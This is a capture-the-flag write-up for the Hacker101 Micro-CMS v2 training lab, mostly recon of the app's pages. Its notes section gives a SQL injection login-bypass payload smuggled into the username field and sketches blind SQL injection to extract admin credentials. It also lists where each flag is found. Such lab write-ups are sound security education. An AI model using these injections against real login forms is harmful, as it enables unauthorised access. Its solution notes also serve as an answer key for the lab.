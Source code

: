 # Hacker101: Micro-CMS v2

## By Infinity




## Recon:




### /

<details>
<summary>Headers</summary>

```html
Date
Content-Type
Content-Length
Connection
Server
```
</details>
<details>
<summary>Response</summary>

```html

<!doctype html>
<html>
	<head>
		<title>Micro-CMS</title>
	</head>
	<body>
		
		<ul>
<li><a href="page/1">Micro-CMS Changelog</a></li>
<li><a href="page/2">Markdown Test</a></li>
		</ul>
		<a href="page/create">Create a new page</a>
	</body>
</html>

```
</details>
<details>
<summary>Rendered</summary>


<!doctype html>
<html>
	<head>
		<title>Micro-CMS</title>
	</head>
	<body>
		
		<ul>
<li><a href="page/1">Micro-CMS Changelog</a></li>
<li><a href="page/2">Markdown Test</a></li>
		</ul>
		<a href="page/create">Create a new page</a>
	</body>
</html>

</details>

### /page/1

<details>
<summary>Headers</summary>

```html
Date
Content-Type
Content-Length
Connection
Server
```
</details>
<details>
<summary>Response</summary>

```html

<!doctype html>
<html>
	<head>
		<title>Micro-CMS Changelog</title>
	</head>
	<body>
		<a href="../">&lt;-- Go Home</a><br>
		<a href="edit/1">Edit this page</a>
		<h1>Micro-CMS Changelog</h1>
<h2>Version 2</h2>
<p>This version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.</p>
	</body>
</html>

```
</details>
<details>
<summary>Rendered</summary>


<!doctype html>
<html>
	<head>
		<title>Micro-CMS Changelog</title>
	</head>
	<body>
		<a href="../">&lt;-- Go Home</a><br>
		<a href="edit/1">Edit this page</a>
		<h1>Micro-CMS Changelog</h1>
<h2>Version 2</h2>
<p>This version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.</p>
	</body>
</html>

</details>

### /page/2

<details>
<summary>Headers</summary>

```html
Date
Content-Type
Content-Length
Connection
Server
```
</details>
<details>
<summary>Response</summary>

```html

<!doctype html>
<html>
	<head>
		<title>Markdown Test</title>
	</head>
	<body>
		<a href="../">&lt;-- Go Home</a><br>
		<a href="edit/2">Edit this page</a>
		<h1>Markdown Test</h1>
<p>Just testing some markdown functionality.</p>
<p><img alt="adorable kitten" src="https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/" /></p>
<p><button>Some button</button></p>
	</body>
</html>

```
</details>
<details>
<summary>Rendered</summary>


<!doctype html>
<html>
	<head>
		<title>Markdown Test</title>
	</head>
	<body>
		<a href="../">&lt;-- Go Home</a><br>
		<a href="edit/2">Edit this page</a>
		<h1>Markdown Test</h1>
<p>Just testing some markdown functionality.</p>
<p><img alt="adorable kitten" src="https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/" /></p>
<p><button>Some button</button></p>
	</body>
</html>

</details>

### /page/create

<details>
<summary>Headers</summary>

```html
Date
Content-Type
Content-Length
Connection
Server
Location
```
</details>
<details>
<summary>Response</summary>

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>.  If not click the link.
```
</details>
<details>
<summary>Rendered</summary>

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>.  If not click the link.
</details>

### /login

<details>
<summary>Headers</summary>

```html
Date
Content-Type
Content-Length
Connection
Server
```
</details>
<details>
<summary>Response</summary>

```html

<!doctype html>
<html>
	<head>
		<title>Log in</title>
	</head>
	<body>
		<a href="home">&lt;-- Go Home</a>
		<h1>Log In</h1>
		<form method="POST">
			Username: <input type="text" name="username"><br>
			Password: <input type="password" name="password"><br>
			<input type="submit" value="Log In">
			<div style="color: red"></div>
		</form>
	</body>
</html>

```
</details>
<details>
<summary>Rendered</summary>


<!doctype html>
<html>
	<head>
		<title>Log in</title>
	</head>
	<body>
		<a href="home">&lt;-- Go Home</a>
		<h1>Log In</h1>
		<form method="POST">
			Username: <input type="text" name="username"><br>
			Password: <input type="password" name="password"><br>
			<input type="submit" value="Log In">
			<div style="color: red"></div>
		</form>
	</body>
</html>

</details>

## Notes:
- Login function => sql injection.
- Modifying password does not work, but modifying username throws error:
```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''test''' at line 1")

```
- As you can see, the username is being put into an unfiltered sql query. 
- Using this: ```username=test'+UNION+SELECT+'a'--+&password=a``` yields access to normal account. 
- Getting admin password is possible via blind sqli, via differing results. We can set up a sql query to check a conditional, where wrong user = false and wrong password = true. We can thus extract the admin username and password. 
- We can also just directly edit pages by posting to the /page/edit/2 endpoint.

## Flags
1. In a private page accesed via union attack
2. In a response to posting to the /page/edit/whatever endpoint
3. After entering the admin username and password acquired via blind sqli
